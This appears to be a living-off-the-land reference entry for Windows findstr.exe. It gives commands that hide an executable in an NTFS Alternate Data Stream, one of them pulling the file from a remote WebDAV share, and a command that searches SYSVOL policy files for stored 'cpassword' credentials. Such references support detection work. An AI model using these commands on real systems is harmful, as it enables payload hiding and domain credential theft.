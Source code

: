 ## Findstr.exe
* Functions: Add ADS, Search
```

findstr /V /L W3AllLov3DonaldTrump c:\ADS\file.exe > c:\ADS\file.txt:file.exe
Searches for the string W3AllLov3DonaldTrump, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.

findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe
Searches for the string W3AllLov3DonaldTrump, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.

findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
Search for stored password in Group Policy files stored on SYSVOL.
```
   
* Resources:   
  * https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  * https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
   
* Full path:   
  * c:\windows\system32\findstr.exe
  * c:\windows\sysWOW64\findstr.exe
   
* Notes: Thanks to Oddvar Moe - @oddvarmoe  
   

